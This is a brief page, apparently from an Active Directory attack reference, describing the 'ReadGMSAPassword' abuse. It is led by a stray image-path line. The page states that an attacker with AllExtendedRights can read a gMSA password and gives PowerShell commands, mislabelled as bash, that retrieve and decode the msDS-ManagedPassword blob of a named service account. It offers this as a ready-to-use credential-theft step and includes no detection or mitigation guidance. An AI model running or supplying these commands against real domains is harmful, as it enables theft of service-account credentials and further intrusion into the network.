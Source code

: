# ReadGMSAPassword

This abuse can be carried out when controlling an object that has `AllExtendedRights` over a target computer.

The attacker can read the GMSA password of the account. This can be achieved with the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
```


